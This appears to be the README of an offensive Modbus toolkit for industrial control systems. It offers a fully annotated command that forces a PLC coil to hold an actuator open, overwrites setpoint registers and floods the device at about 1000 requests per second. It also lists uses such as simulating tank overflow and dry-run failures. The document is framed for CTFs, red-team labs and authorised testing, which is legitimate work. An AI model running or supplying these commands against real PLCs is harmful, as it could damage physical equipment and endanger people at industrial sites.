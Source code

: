 #  Modblaster

A high-speed Modbus toolkit for fuzzing, flooding, and real-time ICS manipulation.

Modblaster lets you:
- Force coils and write registers
- Use FC6, FC15, FC16, FC22, FC23
- Monitor registers and stop automatically on sensor triggers
- Perform advanced threading, random value flooding, and burst attack logic
- View live dashboards with `rich` and `tqdm`

**Perfect for CTFs, ICS red team labs, and offensive protocol analysis.**

## Usage Example

```bash
python3 modblaster.py \
  --host 172.19.4.9 \
  # IP address of the target Modbus TCP PLC
  --force-coil 2 \
  # Continuously forces coil #2 (boolean output) to TRUE
  # Useful to simulate holding an actuator open like a valve or pump
  --set-reg 1052 \
  # Write to holding register #1052, typically used to influence setpoints or flow rates
  --set-value 100 \
  # The value to write (e.g., set beer flow rate to 100) unless using --random-values
  --function-code 23 \
  # Use Modbus Function Code 23 (Read/Write Multiple Registers)
  # This reads 50 registers (by default) and writes 50 values at once
  # More powerful and less common than FC 6 or 16
  --duration 300 \
  # Total attack duration: 300 seconds = 5 minutes
  # After this, all flooding/monitoring threads stop
  --threads 50 \
  # Number of concurrent threads for register flooding
  # More threads = higher throughput (and stress on target)
  --rate 20 \
  # Each thread sends 20 requests/sec
  # Total = 50 x 20 = 1000 req/sec
  --coil-interval 0.25 \
  # Force coil #2 every 0.25 seconds
  # Simulates an actuator being repeatedly activated (e.g. hammering a solenoid)
  --monitor simple:0:le,0:stop_flood \
  # Add a monitor:
  # Type: `simple`
  # Reg: input register 0 (e.g., tank_level_sensor)
  # Condition: less than or equal to 0 (`le,0`)
  # Action: `stop_flood` — stops attack if condition is met
  # So: if tank_level_sensor hits 0, attack stops automatically
  --monitor-logic all \
  # Require ALL monitors to be true before stopping flood
  # (Useful when combining multiple conditions; here only one is defined)
  --statistics \
  # Enables tracking of request count, error rate, monitor triggers, etc.
  --progress \
  # Show live progress bar using `tqdm`
  # Gives real-time visual of how many requests have been sent
  --verbosity 2
  # Logging level: 0 = silent, 1 = info, 2 = debug
  # Level 2 shows full register values, thread actions, retries, monitor evaluations, etc.
```
## Background

This tool was developed while exploring OT/ICS attack surfaces in simulated industrial environments. Specifically, inspiration and iterative testing came while engaging with **Hack The Box's Pro Labs – Alchemy**.

It is designed to safely simulate and analyze Modbus TCP-based flooding, monitor triggering, and replay attacks, with features tailored to ICS environments. No actual production systems were harmed or accessed.

> This script is for **educational**, **research**, and **authorized testing** purposes only.

## Use Cases

- Flooding registers with random or fixed values
- Simulating ICS failures (tank overflow, dry-run sensors)
- Stress testing and load benchmarking PLC behavior
- Conditional shutdowns (stop flooding on safety sensor triggers)
- Passive sniffing & replay (future feature-ready)


## ⚠LEGAL NOTICE
This tool is released under the MIT License.

This tool is intended strictly for educational use, CTF competitions, or authorized security testing within lab/testbed environments.

Do not use this on any production ICS or SCADA system without explicit written permission from the system owner.

The author assumes no liability for any misuse, damage, or legal consequences resulting from unauthorized usage.

You are solely responsible for your actions. Know your scope. Hack ethically.



